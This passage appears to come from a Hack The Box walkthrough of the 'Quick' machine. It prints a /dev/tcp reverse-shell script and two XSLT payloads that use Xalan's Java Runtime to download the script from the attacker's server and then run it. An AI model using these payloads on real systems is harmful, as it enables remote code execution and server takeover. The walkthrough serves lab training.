 ```bash
root@darkness:/var/www/html# cat ex.sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1'
```
Next, we create the first stage, which will download the reverse-shell from our server.

```bash
root@darkness:/var/www/html# cat stage1.xsl
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget 10.10.14.12/ex.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
Next, we create the second stage, which will execute the downloaded reverse-shell.

```bash
root@darkness:/var/www/html# cat stage2.xsl
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[bash ex.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
Now we have to trigger each stages in order to get a shell.

![Stage 1 payload](/assets/htb/Quick/exploit-stage1.png)
